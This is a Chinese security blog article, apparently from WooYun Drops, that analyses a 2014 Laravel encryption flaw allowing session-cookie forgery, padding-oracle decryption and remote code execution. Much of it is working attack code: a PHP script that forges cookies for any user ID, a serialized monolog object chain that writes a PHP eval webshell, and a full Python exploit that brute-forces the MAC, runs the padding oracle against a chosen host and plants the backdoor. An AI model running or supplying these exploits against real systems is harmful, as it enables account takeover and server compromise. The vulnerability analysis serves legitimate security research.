






# Laravel cookie 伪造,解密,和远程命令执行

2014/04/29 17:48 | [fate0](http://drops.wooyun.org/author/fate0 "由 fate0 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

from:[laravel-cookie-forgery-decryption-and-rce](https://labs.mwrinfosecurity.com/blog/2014/04/11/laravel-cookie-forgery-decryption-and-rce/)

## 0x00 内容

* * *

*   名词约定
*   简介
*   任意用户登录
*   发送任意密文
*   解密密文
*   为任意明文伪造合法的密文
*   远程代码执行
*   译者总结

## 0x01 名词约定

* * *

### 下图为 CBC 模式加密过程



### 下图为 CBC 模式解密过程



*   Plaintext: 明文(P)
*   Ciphertext: 密文(C)
*   Initialization Vector: 初始化向量(IV)
*   Key: 密钥(K)



## 0x02 简介

* * *

Laravel PHP 框架中的加密模块存在漏洞，攻击者能够利用该漏洞伪造 session cookie 来实现任意用户登录， 在某些情况下，攻击者能够伪造明文对应的密文，并以此来实行远程代码执行。

Laravel 是一个免费，开源的 PHP 框架，它为现在的 web 开发人员提供了很多功能，包括基于 cookie 的 session 功能。 为了防止攻击者伪造 cookie，Laravel 会为其加密并带上一个消息认证码(MAC)。当接收到 cookie 时，会计算出相对应的 MAC， 并与 cookie 所带的 MAC 做比较。如果两 MAC 不一致，则认为 cookie 已经被篡改，请求会被终止。

## 0x03 任意用户登录

* * *

下面的代码展示了 MAC 验证和解密过程:

```
$payload = json_decode(base64_decode($payload), true);

if ($payload['mac'] != hash_hmac('sha256', $payload['value'], $this->key))
    throw new DecryptException("MAC for payload is invalid.");

$value = base64_decode($payload['value']);
$iv = base64_decode($payload['iv']);

$plaintext = unserialize($this->stripPadding($this->mcryptDecrypt($value, $iv)));

```

从上面的代码可以看出 MAC 只对 value 进行校验，并不能保证初始化向量(IV)的完整性。 Laravel 使用 Rijndael－256 的密码分组链接(CBC)模式。 着也就意味着，没有对 IV 进行校验，攻击者能够任意修改第一个块的明文。

Laravel “remember me”的 cookie 格式是 user ID 字符串，因此恶意用户可以修改他们自个的 session cookie，达到登录任意用户，假设我们的用户 ID 为`"123"`，session cookie 原始明文为 `s:3:"123";后接 22byte 的补充`: `s:3:"123";\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16\x16` (译者注: Laravel 用的是 PKCS7 padding，与 PKCS5 不同的是，[PKCS5](http://tools.ietf.org/html/rfc2898)明确填充的内容 psLen 是 1-8， 而[PKCS7](http://tools.ietf.org/html/rfc2315)没有这限制。)

假设系统生成的 cookie 中的 IV 是这样子的:

```
V\xc5\xb5\x03\xf1\xd4"\xe5+>c\xffJPN\xad\x9f\xd6\xa0\x9cV\xe3@\x9c\xd5\xa0\xd1\xddS\x1d\xc9\x84 
```

如果我们想伪造 ID 为 1 的用户，也就是 cookie 明文为`s:1:"1";后接 24byte 的补充`，为了能够使服务器端成功解密出 ID 为 1 的明文， 需要按照以下步骤生成 IV:



就获得了 Pb 相对应的 IVb，提交新的 cookie，我们就成了 ID 为 1 的用户，也可以用同样的方法来登录其他 ID。 对攻击者来说，能够登录任意用户也是相当牛逼的，但你能牛逼的程度取决于应用程序傻逼的程度。有没有一种方法， 能够通杀使用 Laravel 的应用呢？

## 0x04 发送任意密文

* * *

另外一个问题，进行 MAC 检验的时候使用的是`!=`。这以为着 PHP 在实际比较前会进行类型判断。hash_hmac 返回的结果永远都是字符串， 但是如果`$payload['mac']`是一个整型，那么强制类型转换会使得伪造一个对应的 MAC 变得相对简单， 例如，正确的 MAC 以"0"或者其他非数字起头，那么整数 0 将与之匹配，如果以"1x"(x 非数字)，那么整数 1 与之匹配，依此类推。 (译者注:作者难道没有被 1e[1-9]xxx 坑过没?)

```
var_dump('abcdefg' == 0); // true
var_dump('1abcdef' == 1); // true
var_dump('2abcdef' == 2); // true

```

由于 MAC 是经过 json_decode 处理的，攻击者可以提供一个整型的 MAC，这也就意味着，攻击者能够提供一个正确的 MAC 给任意密文。

## 0x05 解密密文

* * *

Laravel 使用的是 CBC 模式的分组密码，我们也能够提供任意密文让其解密，我们是否能够实施一次牛逼哄哄的 [CBC padding oracle attack](http://link.springer.com/chapter/10.1007/3-540-46035-7_35)攻击呢？ 答案是：在某种情况下，YES

一次有预谋的 padding oracle attack 攻击需要目标应用能够泄漏不同填充下解密的状态，回头看看解密过程的代码， 有三个地方填充状态可能会被泄漏:

*   mcryptDecrypt(): 无侧漏，就是调用`mcrypt_decrypt()`，没对 padding 进行处理
*   stripPadding(): 无明显侧漏，该方法检测 padding 是否合法，但不会报告错误，只是返回输入是否被篡改。 这里有个基于时间的边信道侧漏，是否多调用 substr()，但是我们选择无视它。
*   unserialize(): 当 error reporting 启用，一个不合法的 PHP 序列化字符串，它会侧漏输入字符串的长度。

嗯，当 PHP reporting 启用时(其实应该是 Laravel 的 debug 模式开启时)，反序列化解密后的数据会告诉我们有多少 byte 的 padding 被去除， 例如`unserialize()`爆出"offset X of 22 bytes"的错误时，我们就可以知道这里有 10byte 的 padding。

这样的侧漏对于组织一次有预谋的 padding oracle attack 来说，足够！

## 0x06 为任意明文伪造合法的密文

* * *

既然有了个 CBC decryption oracle，那就很有可能利用[CBC-R](https://www.usenix.org/legacy/events/woot10/tech/full_papers/Rizzo.pdf)技术来加密任意明文。



CBC 模式的解密过程为 Pi=DK(Ci) xor Ci−1,C0=IV ，如果攻击者能够控制或者知晓 DK(Ci) 和 Ci−1 ， 他就能够生成他想要的明文块。既然这里有个选择密文攻击，很显然攻击者能够控制 Ci 和 Ci−1 ， 至于 DK(Ci)

我们能够利用 decryption oracle 获得，因此攻击者无需知道密钥 K 即可对任意明文加密。牛逼吧，如果应用程序使用了这套加密 API，我们就伪造密文来执行敏感操作，但是这还是得取决于应用有多傻逼， 我们希望变得更牛逼。

## 0x07 发送任意密文

* * *

我们已经使用`unserialize()`作为我们 padding oracle 的基础， 那我们再次利用`unserialize()`作一次 PHP 对象注入来达到任意代码执行，如何？

经过搜索 Laravel 代码之后，发现还是蛮多类定义了 `__wakeup()` 或者 `__destruct()` 魔术方法， 不过我发现最有趣的一个类当属被很多项目引用的 monolog PHP 日志记录框架中的 BufferHandler 类，显然，如果 payload 利用的是被广泛应用的 monolog 而不是其他特定的类，会更为通用。 使用 Composer(PHP 依赖管理器)时，monolog 很有可能被包含，因为它可能被注册为 PHP class autoload，这也就意味着， monolog 不用被明确的包含在我们请求的文件中，当我们反序列化的时候，PHP 会自动寻找加载这个类。

BufferHandler 类包装这另外一个 log 处理类，当 BufferHandler 对象被销毁时，BufferHandler 对象会用它包含的实际处理 log 的对象处理它当前的 log buffer，一个比较好的选择是能够存储到任意流资源(比如说文件流)的 StreamHandler 类，所以我们的计划是注入一个包含 StreamHandler 对象的 BufferHandler 对象，其中 StreamHandler 对象的流资源指向 web 根目录，并且 BufferHandler 内包含着带有 php webshell 的 log buffer，好，计划通，行动。

利用下面的代码，很容易生成对应的 payload:

```
<?php

require_once 'vendor/autoload.php';

use Monolog\Logger;
use Monolog\Handler\StreamHandler;
use Monolog\Handler\BufferHandler;

$handler = new BufferHandler(
    new StreamHandler('target-file.php')
);
$handler->handle(array(
    'level' => Logger::DEBUG,
    'message' => '<?php eval(hex2bin($_GET[\'x\']));?>',
    'extra' => array(),
));
print bin2hex(serialize($handler)) . "\n";
?>

```

上面的脚本会生成我们的 payload:

```
O:29:"Monolog\Handler\BufferHandler":3:{s:10:"\x00*\x00handler";O:29:"Monolog\Handler\StreamHandler":1:{s:6:"\x00*\x00url";s:15:"target-file.php";}s:9:"\x00*\x00buffer";a:1:{i:0;a:3:{s:5:"level";i:100;s:7:"message";s:34:"<?php eval(hex2bin($_GET['x']));?>";s:5:"extra";a:0:{}}}s:13:"\x00*\x00bufferSize";i:1;} 
```

通过上面介绍的技巧，我们可以加密该 payload，作为 cookie 提交上去的时候，代码就执行了。

## 0x08 译者总结

* * *

对于原作者所说的漏洞，我拿一个开源 blog [laravel-4.1-simple-blog](https://github.com/5-say/laravel-4.1-simple-blog) 做实验，将关键文件回滚到存在漏洞状态，如果有人想研究，也可以在这[laravel-cookie-forgery-decryption-and-rce.zip](http://static.wooyun.org/20141017/2014101716030797096.zip)下载完整文件。

### 测试 1 任意用户登录

在本地:

新注册一个账户 fate0@fatezero.org，得到用户 ID 为 62，利用以下代码即可获取指定 ID 用户的 cookie

```
<?php

if ($argc < 4) {
    print("[*] Usage ".$argv[0]." cookie userid targetid\n");
    return;
}

$cookie = json_decode(base64_decode($argv[1]), true);
$userid = $argv[2];
$targetid = $argv[3];

$iv_a = base64_decode($cookie['iv']);
$p_a = addPadding(serialize($userid));
$p_b = addPadding(serialize($targetid));

$iv_b = base64_encode($iv_a ^ $p_a ^ $p_b);

$cookie['iv'] = $iv_b;

echo base64_encode(json_encode($cookie))."\n";

function addPadding($value) {
    $block_size = 32;
    $pad = $block_size - (strlen($value) % $block_size);
    return $value.str_repeat(chr($pad), $pad);
}
?>

```

运行结果


### 测试 2 利用 padding oracle 来实现 RCE

我修改原作者生成 payload 的脚本，对比生成的 payload 和原作者给的 payload，发现原作者把一些无用的 protect 属性给去除了， payload 显得比较短，打算直接使用作者给的 payload。

但是！原作者的 payload 留了个大坑，正常访问下，index.php 的工作目录是 web 目录， 但是 unserialize cookie 之后产生的 BufferHandler 对象和字符串做运算，而 BufferHandler 类没实现 __toString 魔术方法， 从而导致触发 fatal error，使用 register_shutdown_function 注册的回调函数$this->close 被调用，但是！在我测试环境`ubuntu 12.04 64bit + php 5.3.10`下，触发异常导致$this->close 被调用的时候，工作环境被切换到了根路径'/'，从而导致写文件失败。

另外一个坑是 mac 校验处，本来以为`(10/16.0) ** 3 = 0.244140625`，开头连续三个数字字符的概率还算低，结果跑一遍才发现远远低估 mac 校验这里的情况了，比如说正确的校验值是`79e58c735e1105d7222f321031a782251da88ebd08cdc1de926ead2df4b9d3fd`， 这种情况就让人很无奈。在实际情况中，正确的做法是换 payload，在这里我就直接换 key， 最后把 key 换成`Http://WeiBo.COM/Fatez3r0/home?Y`。 由于程序推 ciphertext，推 cv 的关联性，以及推 1 byte cv 的随机性，多线程在此处意义不大。

下面是我根据上面的原理编写的 exploit

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from __future__ import print_function

import re
import sys
import json
import struct
import base64
import requests
from optparse import OptionParser

def init_parser():
    print("")
    print("=== POC for laravel RCE ===")
    print("=== by fate0            ===")
    print("=== fate0@fatezero.org  ===")
    print("=== weibo.com/fatez3r0  ===")
    print("")
    usage = "Usage: %prog --host http://www.fatezero.org"
    parser = OptionParser(usage=usage, description="POC for laravel RCE")
    parser.add_option("--host", type="str", dest="host", help="remote host name")
    return parser

class LaravelOracle(object):
    """
    提供 32 位的 payload，也就是明文 P
    返回相对应的 32byte IV
    """
    block_size = 32

    def __init__(self, domain, plaintext, ciphertext):
        self.domain = domain
        self.timeout = 7
        self.re_pattern = re.compile("Error\sat\soffset\s\d{1,2}\sof\s([\d]{1,2})\sbytes", re.DOTALL | re.M)
        self.plaintext = bytearray(plaintext)  # 32byte 的 payload
        self.ciphertext = bytearray(ciphertext)  # 32byte 的 ciphertext
        self.cv = bytearray()   # 正确的 cv (中间值)
        self.iv = bytearray()
        self.cookie = {
            'mac': 0,
            'value': self.ciphertext,
            'iv': bytearray('0'*32)
        }
        self.modify_cookie_mac()

    @staticmethod
    def add_padding(value):
        """
        对 value 进行 padding
        """
        pad = LaravelOracle.block_size - (len(value) % LaravelOracle.block_size)
        return "{value}{padding}".format(value=value, padding=chr(pad)*pad)

    @staticmethod
    def format_cookie(cookie):
        """
        将易操作的 cookie 转换成 laravel 的 cookie
        """
        tmp_cookie = dict()
        send_cookie = dict()

        tmp_cookie['iv'] = base64.b64encode(cookie['iv'])
        tmp_cookie['value'] = base64.b64encode(cookie['value'])
        tmp_cookie['mac'] = int(cookie['mac'])

        send_cookie['laravel_session'] = base64.b64encode(json.dumps(tmp_cookie))
        return send_cookie

    def modify_cookie_iv(self, index):
        if len(self.cv) != index:
            print("[-] Something Wrong")
            sys.exit()

        tmp_append = bytearray()
        for each_c in self.cv:
            tmp_append.append(each_c ^ (index+1))

        self.cookie['iv'] = self.cookie['iv'][0:LaravelOracle.block_size-index] + tmp_append

    def modify_cookie_mac(self):
        """
        获取正确的 mac
        一个 32byte 的分组，只有 1 个正确的 mac
        """
        while True:
            send_cookie = self.format_cookie(self.cookie)
            response = requests.get(self.domain, cookies=send_cookie, timeout=self.timeout)
            if response.status_code == 500:
                return True
            self.cookie['mac'] += 1

    def guess_cookie_iv_byte(self, index, value):
        """
        猜测一个字节的 IV
        """

        self.cookie['iv'][LaravelOracle.block_size-index-1] = value
        send_cookie = self.format_cookie(self.cookie)
        response = requests.get(self.domain, cookies=send_cookie, timeout=self.timeout)

        re_result = self.re_pattern.findall(response.content)
        if not re_result:
            if index != 31:
                return False
            if response.status_code == 200:
                self.cv.insert(0, value ^ (index+1))
                return True
        elif int(re_result[0]) >= LaravelOracle.block_size - index:
            return False
        else:
            self.cv.insert(0, value ^ (index+1))
            return True

    def exploit(self):
        for index in xrange(32):
            self.modify_cookie_iv(index)
            for value in xrange(256):
                if self.guess_cookie_iv_byte(index, value):
                    break
            print(index, hex(self.cv[0]))

        for p_char, cv_char in zip(self.plaintext, self.cv):
            self.iv.append(p_char ^ cv_char)

def main():
    parser = init_parser()
    option, _ = parser.parse_args()
    domain = option.host

    if not domain:
        parser.print_help()
        sys.exit(0)

    domain = domain if domain.startswith('http') else "http://{domain}".format(domain=domain)
    domain = domain if not domain.endswith('/') else domain[:-1]

    cookie = dict()
    cookie['mac'] = 0

    payload = ('''O:29:"Monolog\Handler\BufferHandler":3:{s:10:"\x00*\x00handler";O:29'''
               ''':"Monolog\Handler\StreamHandler":1:{s:6:"\x00*\x00url";s:26:"/var/www/blog/public/x.php";}'''
               '''s:9:"\x00*\x00buffer";a:1:{i:0;a:3:{s:5:"level";i:100;s:7:"message";s:34:"<?php '''
               '''eval(hex2bin($_GET['x']));?>";s:5:"extra";a:0:{}}}s:13:"\x00*\x00bufferSize";i:1;}''')

    padding_payload = LaravelOracle.add_padding(payload)
    payload_block = reversed(struct.unpack("32s"*(len(padding_payload)/32), padding_payload))

    ciphertext = bytearray('0'*32)
    for each_payload_block in payload_block:
        print("[plaintext] {payload_block}".format(payload_block=each_payload_block))
        print("[ciphertext] {ciphertext}".format(ciphertext=base64.b64encode((ciphertext[:32]))))
        LO = LaravelOracle(domain, each_payload_block, ciphertext[:32])
        LO.exploit()
        print("[iv] {iv}".format(iv=base64.b64encode(LO.iv)))
        ciphertext = LO.iv + ciphertext

    cookie['iv'] = ciphertext[:32]
    cookie['value'] = ciphertext[32:]
    cookie['mac'] = 0

    while True:
        send_cookie = LaravelOracle.format_cookie(cookie)
        requests.get(domain, cookies=send_cookie, timeout=7)
        if requests.get("{domain}/{backdoor}".format(domain=domain, backdoor='x.php')).status_code == 200:
            print("cookie: \n{cookie}".format(cookie=send_cookie))
            return
        cookie['mac'] += 1

if __name__ == '__main__':
    main()

```

运行结果



版权声明：未经授权禁止转载 [fate0](http://drops.wooyun.org/author/fate0 "由 fate0 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Codeigniter 利用加密 Key（密钥）的对象注入漏洞](http://drops.wooyun.org/papers/1449)
*   [Perl 数据类型安全研究【翻译】](http://drops.wooyun.org/papers/4505)
*   [Attacking MongoDB](http://drops.wooyun.org/papers/850)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)
*   [Shell Injection & Command Injection](http://drops.wooyun.org/papers/1018)
*   [Python Pickle 反序列化带来的安全问题](http://drops.wooyun.org/papers/66)